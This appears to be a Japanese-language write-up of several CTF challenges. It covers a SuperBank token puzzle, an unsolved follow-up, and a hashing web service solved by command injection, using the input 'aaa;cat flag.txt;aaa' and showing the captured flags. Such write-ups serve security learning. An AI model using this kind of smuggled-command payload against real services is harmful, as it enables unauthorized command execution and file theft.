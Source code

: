 
Attachment:

- superbank.exe
- superbank-osx
- superbank-linux

### Solution
問題の中で、API Endpoint, Username, PINが与えられます。添付されているプログラムを実行すると、それらを入力するようになっているので入力すると、以下に見えるように最初は42トークンを持っているようなので、
<pre>
\================================================================
💰 Welcome to SuperBank, the first blockchain-enabled super bank!
\================================================================
Currently registered accounts:
 - @maximilianhils (5226 tokens)
 - @projecthoneynet (4732 tokens)
 - メールアドレス (42 tokens, that's you!)
</pre>

`__flag__{42}`が答え。


<br /><br />
<br /><br />
## SuperBankNotes (?)
- - -
### Challenge
> The SuperBank app seems to work great, but is it secure? You decide to investigate what @maximilianhils's app is sending on the network. Maybe there is more data on the blockchain than you initially thought?


### (Unsolved)
カテゴリも付いていない。ちょっと降参。



<br /><br />
<br /><br />
## (H)ashing-as-a-Service (medium, web)
- - -
### Challenge
> Developers must make sure to not store passwords as plaintext, but scramble them with a password hashing algorithm first. Unfortunately, they often use insecure hashing algorithms such as MD5 to do this. To tackle this problem, we developed Hashing-as-a-Service (HaaS), a modern approach to perfect password security. Using the HaaS API, you can securely hash any password you want!

### Solution
コマンドインジェクション。セミコロンで区切ると、2つ目がコマンドとして実行される。
<br /><br />
入力：`aaa;cat flag.txt;aaa`
<br /><br />
結果：
<pre>
aaa
\__flag__{7de16dbb910d2f0a6736944cd9a531ca}
ash: aaa: not found
SHA-256: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
</pre>
